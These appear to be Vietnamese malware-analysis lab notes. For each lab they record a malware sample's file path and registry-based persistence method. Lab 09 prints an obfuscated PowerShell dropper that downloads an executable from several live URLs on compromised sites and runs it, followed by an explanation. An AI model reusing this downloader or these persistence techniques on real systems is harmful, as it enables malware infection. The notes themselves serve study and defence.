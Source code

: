 # Lab 06

- Đường dẫn: C:\Windows\SysWOW64\trnsrun.exe

- Cách thức persistent: mã độc dùng key HKLM\System\CurrentControlSet\Service

# Lab 07

- Đường dẫn: C:\Users\Gee\AppData\Roaming\Microsoft\Windows\OUTLLIB.DLL

- Cách thức persistent: mã độc dùng key HKEY_LOCAL_MACHINE\SOFTWARE\WOW6432Node\Microsoft\Windows NT\CurrentVersion\Windows\AppInit_DLLs

# Lab 08

- Đường dẫn: C:\ProgramData\McAfee\McUtil.dll

- Cách thức persistent: mã độc dùng key HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\McAfee cho file thực thi và kỹ thuật dll Hijack để thêm dll độc hại vào cùng file thực thi

# Lab 09

- Mã độc thực thi lệnh: powershell.exe -ExecutionPolicy Bypass -file C:\ProgramData\Microsoft\install.ps1 -WindowStyle Hidden

- File C:\ProgramData\Microsoft\install.ps1 là một lệnh powershell có chức năng:

  ```
  $Eaqekqdr='Rdihyhokr';
  $Qlidsvmgx='697';
  $Zekpiwafigy='Bznpimsdzhz';
  $Dvbarexgme=$env:userprofile+'\'+$Qlidsvmgx+'.exe';
  $Nyvgeunamuv='Qwlelligoxb';
  $Mgufpvaskhlz=..('n'+'ew-ob'+'ject') net.webclient;
  $Snotuzji='https://www.arfajbd.com/wp-admin/kx432434/*https://hefo.com/wp-content/5zuz9ir00606/*http://icloudgraphics.com/wp-content/o1cu7628/*https://bucketlistadventures.com/m5_edit_item/06605ld03197/*http://naavikschool.com/naavikschool.com/ooqvi7a0682/';
  .``'SPL`I`t'(''*)$Zwecplcmhnzc='Ofrhbvbgo';
  foreach($Sixenfhuvxlow in $Snotuzji)
  {
    try
      {
        $Mgufpvaskhlz."d`Ow`LOad`FilE"($Sixenfhuvxlow, $Dvbarexgme);
        $Hjyeuxoehr='Fejljctrajft';
        If((..('G'+'e'+'t-Item') $Dvbarexgme)."L`E`N`GTH" -ge 26474)
        {
          [Diagnostics.Process]::"St`AR`t"($Dvbarexgme);
          $Pqabbqfxpvzeu='Nlkwrrxcr';
          break;
          $Spaskmwq='Evozmuqleiihk'
        }
      }
      catch{}
  }
  $Imjfroitwtypw='Mhweqwhphs'
  ```

  - Tạo và đặt các biến: Các biến $Eaqekqdr, $Qlidsvmgx, $Zekpiwafigy, $Dvbarexgme, $Nyvgeunamuv, $Mgufpvaskhlz, $Snotuzji, $Zwecplcmhnzc, $Hjyeuxoehr, $Pqabbqfxpvzeu, $Spaskmwq, và $Imjfroitwtypw được tạo và gán giá trị.
 
  - Tải về một tệp: Sử dụng đối tượng Net.WebClient, mã PowerShell này cố gắng tải về một tệp từ các URL đã liệt kê trong biến $Snotuzji và lưu tệp này vào vị trí được xác định bởi biến $Dvbarexgme.

  - Kiểm tra độ dài tệp và thực thi: Nếu tệp được tải về có độ dài (kích thước) lớn hơn hoặc bằng 26474 byte, nó sẽ được thực thi bằng cách sử dụng Diagnostics.Process.

# Lab 10

- Đường dẫn: c:\windows\system32\config:conf.dll

- Cách thức persistent: mã độc dùng key HKEY_LOCAL_MACHINE\SOFTWARE\WOW6432Node\Microsoft\Windows NT\CurrentVersion\Image File Execution Options
